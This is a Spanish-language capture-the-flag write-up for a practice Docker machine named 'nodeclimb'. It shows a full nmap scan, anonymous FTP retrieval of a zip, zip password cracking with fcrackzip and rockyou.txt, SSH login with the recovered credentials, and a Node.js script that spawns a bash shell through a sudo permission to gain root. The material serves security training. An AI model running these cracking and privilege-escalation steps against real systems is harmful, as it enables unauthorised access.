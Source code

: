 ```yaml
---
Maquina: nodeclimb
SO: Linux
Explotación: Análisis de AJP
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - linux
  - escala_privs
  - ssh
  - web
  - zip
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sVC -Pn 172.17.0.2
```

![[Pasted image 20241128115914.png]]

Parece que tenemos un servicio FTP con anonymous activado, vamos a ver que tiene ;)

![[Pasted image 20241128120011.png]]

Por lo que vemos hay un zip dentro, vamos a revisarlo a ver que contiene...

![[Pasted image 20241128120132.png]]

Parece que contiene un password.txt pero el problema es que el zip tiene contraseña...

Tras hacer un mini ataque de fuerza bruta podemos observar que passwd utiliza

```bash
fcrackzip -v -u -D -p ~/wordlists/rockyou.txt secretitopicaron.zip
```

![[Pasted image 20241128120419.png]]

![[Pasted image 20241128120442.png]]

Parece que hemos obtenido un usuario mario con pass laKontraseñAmasmalotaHdelbarrioH

Si recordamos teneos un ssh activo, así que vamos a probar a conectarnos a través de ese servicio.

![[Pasted image 20241128120628.png]]

Parece que estamos dentro y además vemos que tenemos privs para poder ejecutar un determinado script.

El script está vacío, pero como nos pertenece lo podemos editar. Para el script he utilizado el siguiente:

```Javascript
const { spawn } = require('child_process');

function spawnShell() {
    const shell = spawn('/bin/bash', [], {
        stdio: 'inherit', // Permite la interacción directa con la shell
    });

    shell.on('error', (err) => {
        console.error(`Error al spawnear la shell: ${err.message}`);
    });

    shell.on('exit', (code) => {
        console.log(`Shell cerrada con código de salida: ${code}`);
    });
}

spawnShell();
```

Una vez lo ejecutamos podemos observar lo siguiente ->

![[Pasted image 20241128120908.png]]

Parece que hemos logrado escalar privs ;)